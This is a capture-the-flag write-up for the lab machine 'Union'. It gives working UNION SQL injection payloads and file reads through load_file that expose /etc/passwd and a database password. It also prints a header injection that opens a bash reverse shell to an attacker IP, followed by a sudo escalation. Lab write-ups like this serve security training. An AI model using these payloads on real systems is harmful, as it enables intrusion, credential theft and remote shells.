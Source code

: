 # Union

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.75
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:22 EDT
Nmap scan report for 10.129.96.75
Host is up (0.0088s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

The name implies I should be looking for some type of UNION SQL Injection somewhere...

### UNION Injection

This reveals a simple website that takes one user input:

<figure><img src="../../../.gitbook/assets/image (4) (3) (4) (1).png" alt=""><figcaption></figcaption></figure>

If we enter anything, it says that we are eligible to compete in the tournament and gives us a link to `challenge.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (645).png" alt=""><figcaption></figcaption></figure>

Since this was a UHC box, `sqlmap` revealed nothing to me, so we have to do this manually. I tried some basic SQL Injection with UNION, and found that it was indeed vulnerable to SQL Injection:

```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select user(); -- -"
Sorry, uhc@localhost you are not eligible due to already qualifying.
```

So now we need to enumerate the database and grab the flag.:

{% code overflow="wrap" %}
```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(schema_name) from information_schema.schemata; -- -"
mysql,information_schema,performance_schema,sys,november

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(table_name) from information_schema.tables WHERE table_schema='november'; -- -"
flag,players

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(column_name) from information_schema.columns WHERE table_schema='november'; -- -"
one,player

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(one) from flag; -- -"
UHC{F1rst_5tep_2_Qualify}
```
{% endcode %}

Once we submit the flag, we have SSH access, but we still have no password.

<figure><img src="../../../.gitbook/assets/image (620) (1).png" alt=""><figcaption></figcaption></figure>

### SSH Creds

Since we still had UNION injection, we can use the `load_file` function to have LFI.&#x20;

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/etc/passwd'); -- -"
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<TRUNCATED>
```

First we need to identify what files are present on the site. I know that it is PHP-based, so let's start there.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.96.75 -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.75
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/05/08 11:38:12 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/.htaccess            (Status: 403) [Size: 162]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 178] [--> http://10.129.96.75/css/]
/firewall.php         (Status: 200) [Size: 13]
/index.php            (Status: 200) [Size: 1220]
/index.php            (Status: 200) [Size: 1220]
```

There's a `config.php` file, and we can read that:

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/var/www/html/config.php'); -- -"
Sorry, <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
 you are not eligible due to already qualifying.
```

With that, we can SSH into the machine.

<figure><img src="../../../.gitbook/assets/image (646).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Command Injection --> Sudo

There's another user on the machine:

```
uhc@union:/home$ ls -la
total 16
drwxr-xr-x 1 root root  12 Nov  8  2021 .
drwxr-xr-x 1 root root 164 Jul  2  2021 ..
drwxr-xr-x 1 htb  htb  158 Nov  8  2021 htb
drwxr-xr-x 1 uhc  uhc  108 Nov  8  2021 uhc
```

There isn't much that this user can access. So let's view the website files. The `firewall.php` file is the one that provided us with access to SSH, and it has some vulnerable code:

```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

```

This uses the `X-Forwarded-For` HTTP header variable and passes it directly into a command with `sudo`. Using this request, we can get another reverse shell as `www-data`.

```http
GET /firewall.php HTTP/1.1
Host: 10.129.96.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.96.75/challenge.php
Connection: close
X-Forwarded-For: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1";
Cookie: PHPSESSID=jg4bjv3vg5pol32mv1teq3i0pp
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

When checking our `sudo` privileges, this is what we see:

```
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

<figure><img src="../../../.gitbook/assets/image (622) (1).png" alt=""><figcaption></figcaption></figure>
